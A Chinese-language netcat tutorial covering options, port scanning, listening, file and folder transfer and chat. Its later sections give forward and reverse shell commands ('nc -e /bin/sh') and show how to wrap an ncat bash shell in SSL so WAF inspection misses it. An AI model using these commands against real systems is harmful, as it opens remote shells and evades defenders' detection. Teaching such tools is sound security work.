







# NETCAT

## netcat基础

**NETCAT（nc）被誉为网络安全界的‘瑞士军刀’,它是一个功能强大的网络调试和探测工具。使用TCP或UDP协议的网络连接去读写数据。**

**功能说明：**端口扫描、端口监听、远程文件传输、远程shell等等;

## Netcat基本参数

`nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]`

-d：与控制台分离，以后台模式运行。

**-e：程序重定向，后面跟程序名**

-G：原路由跳跃点，最多到8个。后面跟网关

-g：原路由指示器，如4，8，12·…···

-h:显示帮助信息。

-i：延时(扫描时用到的)，后面跟延时的秒数。

**-L：监听入本地栈信息。**

**-l：开一个端口来监听，直到nc程序结束。**

**-n：直接使用IP地址，而不通过域名服务器；**

-o：以十六进行制形式将结果记录到文件，后面跟文件名。

**-p：监听本地的端口，后面跟端口号。注意，如果这个端口没打开，此时会打开此端口并进行监听。**

-r：选取随机的本地及远程端口。

-s：指定本地的源地址，地址跟在s后面。

**-t：应答telnet协商。即试图通过telnet登录对方机器。**

-u：udp模式。

**-v：显示信息 【使用两个v会显示更详细的信息】**

-w：连接超时时间，后面跟秒数。

-z：扫描时使用i/o模式。 

## Netcat 基本操作

### 探测主机端口

`nc -v www.baidu.com 80`：扫描指定主机的单一端口是否开放

扫描指定主机的某个端口段的端口开放信息 `nc  -v  -z  Target_IP   Target_Port_Start  -  Target_Port_End`
扫描指定主机的某个UDP端口段，并且返回端口信息 格式：`nc -v   -z  -u  Target_IP  Target_Port_Start   -   Target_Port_End`
扫描指定主机的端口段信息，并且设置超时时间为3秒　格式：`nc  -vv（-v） -z  -w  time  Target_IP   Target_Port_Start-Targert_Port_End`

### 在本机监听某个端口

`nc -l  -p Local_Port`  只能连接一次，客户端断开后就不再连接 使用“-L”或-k参数可以不停的监听某一个端口，知道Ctrl+C为止

### Netcat 通信

服务器：nc -l -p 端口号

客户端：nc -nv 服务器的ip 端口号

目的：输入对话信息(对话端都能接受对方发来的信息)：实现端对端通信 

**解释： n:接地址，做域名解析 **   

​             **v:显示详细的连接的相关详细信息及输出内容** 

​             **l:需要侦听一个端口，告诉NC要打开侦听一个端口**      

​             **p:指定打开（所在机器）所需要侦听的端口号** 

  

只能连接一次，客户端断开后就不再连接 

**使用“-L”或-k参数可以不停的监听某一个端口，知道Ctrl+C为止**

### 文件传输（往服务器传文件）

服务器：nc -lp 端口号 > 文件名

客户端：nc -nv 服务器ip地址 端口号 < 文件名 -q 1

**解释： A机（服务器）为接收主机(在侦听端口等待，等待B机（客户端）来连接这个端口，并接收B机的文件)，B机为发送主机，其中‘>’表示输出文件，‘<’表示输入文件，效果为B机的“nc.txt”文件被传送到A机上面且以“kali.txt”的形式存储**   

​                                          **(首先先在客户端创建一个文档nc.txt，并且在其中编写内容)**

​                    **(在服务器ubuntu上输入相应命令，创建一个在服务器上的文件kali.txt)**

​                                               **(点开文件目录，发现已经创建成功)**

​                                   **(在客户端kali上输入相应命令，将nc.txt的内容传输给服务器的kali.txt文件)**

​                                             **(打开文件，发现已经传输成功)**

**注：往客户端传文件方法类似。**

### 文件夹传输

 **思路：传输目录时，先将文件打包成文件，然后通过文件管道发送至nc端口里面，当发送至另一端时，进行加压还原。**
命令： 也涉及双向，和上述的文件传输类似

向客户端发送文件夹：

服务器：tar -cvf - 目录名/ | nc -lp 端口号 -q 1

客户端：nc -nv 服务器ip地址 端口号 | tar -xvf -

​                            **(发现输入ls查询目录，目录传输music-ubuntu已经成功)**

### NC反弹shell

简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell。

**正向shell**：

- 攻击机：`nc  Targert_IP  Targert_Port `
- 靶机：`nc  -lvp  Targert_Port  -e  /bin/sh  `

**反向shell：**

- 攻击机：`nc -lvp  Target_Port`
- 靶机：` nc  Targert_IP Targert_Port -e /bin/sh`

## 使用ssl给nc连接加密

nc 发送的数据包是明文传输的，所以数据会被waf之类的检测，套上一层ssl就检测不到了

先生成 ssl-key :

` openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem `

- 服务器端: ncat -c bash --allow     192.168.31.221 -vnl 333 --ssl --ssl-cert cert.pem --ssl-key key.pem
- 客户端: ncat -nv 127.0.0.1 333     --ssl --ssl-cert cert.pem --ssl-key key.pem 

   